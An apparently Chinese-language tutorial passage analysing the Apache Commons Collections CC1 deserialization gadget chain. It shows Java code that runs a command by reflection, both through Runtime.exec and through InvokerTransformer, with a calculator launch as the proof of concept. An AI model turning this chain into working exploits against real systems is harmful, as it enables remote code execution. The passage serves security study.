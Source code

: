 然后在 IDEA 中，`File-->Project Structure- ->SDKs` 将 `src` 目录的路径加到 `Sourcepath` 中去：  

<div align=center><img width="894" alt="image" src="https://user-images.githubusercontent.com/84888757/204702840-522354dc-6fc8-4e28-b106-56b240d0908f.png" /></div>

下载maven源码包：

<div align=center><img width="445" alt="image" src="https://user-images.githubusercontent.com/84888757/204703339-9e7d9b3c-e354-489d-8ff2-e5992f3ddc8f.png" /></div>


## 0x02 CC1 TransformedMap Gadget 分析

说到CC1链，大家就得了解`Transformer`接口，它位于 `org.apache.commons.collections` 包中：

<img width="1029" alt="image" src="https://user-images.githubusercontent.com/84888757/204716279-1fb1f5b2-e0ec-4be2-953d-177b39691170.png">

`Transformer` 只有一个 `transform()`方法，`transform` 意为转换，转化，`transformer` 可理解为转换器、修饰器的意思，根据介绍可知道其作用是对传入的对象进行修饰，不改变其类型。来看看有哪些类实现了这个接口：

`command+option`查看实现类

<img width="1032" alt="image" src="https://user-images.githubusercontent.com/84888757/204716382-3b01ade9-17f6-4f51-8e23-24d1d901d1f9.png">

接下来让我们一步一步进行分析，找到一个实现了`Transformer`接口的类，它应当包含一个`transform`危险方法，然后我们再向上去寻找哪里调用了该危险方法。

### 2.1 找到危险方法InvokerTransformer.transform
一般来说，我们正常通过反射执行命令的代码如下：
```
public class CC1Test {
    public static void main(String[] args) throws Exception{
        Runtime r = Runtime.getRuntime();
        Class c = Runtime.class;
        Method execMethod = c.getMethod("exec", String.class);
        execMethod.invoke(r, "/System/Applications/Calculator.app/Contents/MacOS/Calculator");
    }
}
```

我们在`Transformer`接口的实现类中找到`InvokerTransformer`类，查看它的`transform`方法，发现能通过反射执行命令，也就是说，我们已经找到了危险方法，尝试使用它。

![image](https://user-images.githubusercontent.com/84888757/204717213-1fd876e6-f047-4a73-972b-8451590fcc5a.png)

要创建实例前，看一下构造函数，确定需要传入什么参数：

<div align=center><img src="https://user-images.githubusercontent.com/84888757/204717250-4583341b-6a8b-467b-970d-1cf8ca9aad7f.png" /></div>

所以我们将通过反射执行命令的代码改成如下形式：

```
public class CC1Test {
    public static void main(String[] args) throws Exception{
//        Runtime r = Runtime.getRuntime();
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r, "/System/Applications/Calculator.app/Contents/MacOS/Calculator");

		InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        exec.transform(Runtime.getRuntime());
    }

}
```
